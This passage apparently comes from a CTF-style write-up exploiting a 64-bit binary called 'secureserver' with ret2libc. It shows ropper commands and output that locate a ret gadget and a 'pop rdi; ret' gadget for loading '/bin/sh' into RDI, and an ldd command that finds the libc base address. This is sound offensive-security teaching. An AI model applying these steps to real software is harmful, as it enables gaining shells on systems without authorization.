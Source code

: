 * <mark style="color:yellow;">NX</mark> is <mark style="color:yellow;">ENABLED</mark>
* This makes it a fantastic target for the **ret2libc** exploitation technique

### Finding `ret` ROP Gadgets with `ropper`

I kept running into <mark style="color:yellow;">stack-alignment issues</mark> presumably because I am on Ubuntu, which is known for these types of issues pertaining to binex. So, I had to add a ret ROP gadget in order for my exploit to work.

With that said, you may not need this.

```
ropper --file secureserver --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: secureserver
0x0000000000401016: ret;
```

To fix our issue, I am simply using a <mark style="color:yellow;">return gadget</mark>.

You can see that the address, <mark style="color:yellow;">`0x401016`</mark> is what we need to <mark style="color:yellow;">return</mark>.

### Finding `POP RDI` ROP Gadgets with `ropper`

```
ropper --file secureserver --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: secureserver
0x000000000040120b: pop rdi; ret;
```

You can see that the address, <mark style="color:yellow;">`0x40120b`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is what we will need to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`POP`</mark> <mark style="color:yellow;">`"/bin/sh"`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into the RDI register as it is our first parameter/argument</mark>.

**NOTE**: Be sure to add this to your exploit code.

So, when the `system()` function is called, it will look in the `RDI` register for this string.

### Finding Base Address for 64-bit `libc` Library

```
ldd secureserver
        linux-vdso.so.1 (0x00007ffff7fc1000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7d8b000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fc3000)
```
